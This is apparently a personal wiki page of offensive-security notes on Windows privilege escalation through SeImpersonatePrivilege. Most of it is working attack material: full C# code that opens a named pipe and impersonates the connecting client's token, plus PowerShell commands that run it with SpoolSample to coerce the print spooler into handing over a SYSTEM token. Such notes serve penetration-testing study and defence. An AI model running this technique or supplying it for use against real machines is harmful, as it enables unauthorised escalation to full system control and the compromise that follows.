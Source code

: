 ```yaml
---
title: Windows privilege escalation
tags:
  - breach
  - operations
  - windows
  - privilege
  - escalation
  - escalating
  - credentials
  - access
  - tokens
  - token
---
```


## SeImpersonatePrivilege

The **SeImpersonatePrivilege** privilege allows us to impersonate any token that
we can get a **HANDLE** to. Built-in accounts like **Network Service**, **Local
Service**, and the default IIS account have this privilege assigned by default.

A useful technique for privilege escalation is to invoke the
[DuplicateTokenEx](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex)
API to create a primary token from a user's impersonated token, allowing us to
create a new process in the context of the impersonated user. Alternatively,
when no tokens related to other users are available in process memory, we can
request the **SYSTEM** account to provide us a token we can use for
impersonation.

The [SharpGetSystem](https://github.com/fgsec/SharpGetSystem) proof of concept
demonstrates this using C#, installing the current console process as a service
and getting the service to connect to the named pipe, enabling the console
service to escalate to the SYSTEM account.

### Abusing the print spooler

The Windows print spooler process runs with the context of SYSTEM and monitors
printer object changes and sends change notifications to print client by
connecting to a client's named pipe. A process that has the
SeImpersonatePrivilege privilege can use the
[ImpersonateNamedPipeClient](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient)
to acquire an impersonation access token from the print spooler process after it
successfully establishes a connection to its named pipe.

Using the following C# .NET code shamelessly stolen from **SharpGetSystem**, we
can create a named pipe for the print spooler to connect to. Once a connection
is established, we'll use our SeImpersonatePrivilege privilege to impersonate
SYSTEM's access token, gather information about the token, and print the
SYSTEM's security identifier (SID):

```csharp
﻿using System.Runtime.InteropServices;

namespace Pwn
{
class Program
{
    public const uint SECURITY_SQOS_PRESENT = 0x00100000;
    public const uint SECURITY_ANONYMOUS = 0 << 16;
    public const uint SECURITY_IDENTIFICATION = 1 << 16;
    public const uint SECURITY_IMPERSONATION = 2 << 16;
    public const uint SECURITY_DELEGATION = 3 << 16;

    [DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
    public static extern IntPtr CreateFile(
        [MarshalAs(UnmanagedType.LPTStr)] string filename,
        [MarshalAs(UnmanagedType.U4)] FileAccess access,
        uint share,
        IntPtr securityAttributes,
        [MarshalAs(UnmanagedType.U4)] FileMode creationDisposition,
        uint flagsAndAttributes,
        IntPtr templateFile
    );

    static void Main(string[] args)
    {
        if (args.Length == 0)
        {
            Console.WriteLine("Usage: Pwn.exe pipename");
            return;
        }

        string pipeName = args[0];

        // create a file for the named pipe
        IntPtr hfile = CreateFile(
            pipeName,
            FileAccess.Read,
            0,
            IntPtr.Zero,
            FileMode.Open,
            SECURITY_SQOS_PRESENT | SECURITY_IMPERSONATION |
                SECURITY_DELEGATION,
            IntPtr.Zero
        );

        // create a named pipe and block for inbound connections
        IntPtr hPipe = Pinvoke.CreateNamedPipe(
            pipeName,
            3,
            0,
            255,
            0x1000,
            0x1000,
            0,
            IntPtr.Zero
        );

        // wait for incoming pipe client
        Pinvoke.ConnectNamedPipe(hPipe, IntPtr.Zero);

        // impersonate pipe client's access token
        Pinvoke.ImpersonateNamedPipeClient(hPipe);

        // get a handle to this thread's access token
        IntPtr hToken;
        Pinvoke.OpenThreadToken(
            Pinvoke.GetCurrentThread(),
            0xF01FF,
            false,
            out hToken
        );

        // get access token information length
        Pinvoke.GetTokenInformation(
            hToken,
            1, // TOKEN_INFORMATION_CLASS == TokenUser
            IntPtr.Zero,
            0,
            out int TokenInfLength
        );

        // get access token information
        IntPtr TokenInformation = Marshal.AllocHGlobal((IntPtr)TokenInfLength);
        Pinvoke.GetTokenInformation(
            hToken,
            1,
            TokenInformation,
            TokenInfLength,
            out _
        );

        // get access token SID
        Pinvoke.TOKEN_USER TokenUser = (Pinvoke.TOKEN_USER)Marshal.PtrToStructure(TokenInformation, typeof(Pinvoke.TOKEN_USER));
        Pinvoke.ConvertSidToStringSid(TokenUser.User.Sid, out IntPtr pStr);
        string sSID = Marshal.PtrToStringAuto(pStr);
        Console.WriteLine(@"Found sid {0}", sSID);
    }
}
}
```

We compile and invoke `Pwn.exe` with the following:

```powershell
.\Pwn.exe \\.\pipe\test\pipe\spoolss
```

Using [SpoolSample](https://github.com/leechristensen/SpoolSample) we can get
the print spooler to establish a connection to our named pipe, enabling us to
impersonate the token. Invoke the following:

```powershell
.\SpoolSample.exe ${COMPUTERNAME} ${COMPUTERNAME}/pipe/test
```

After a couple of seconds, `Pwn.exe` should report the SID of SYSTEM!

## Related pages

- [[windows-credentials|Windows credentials]]

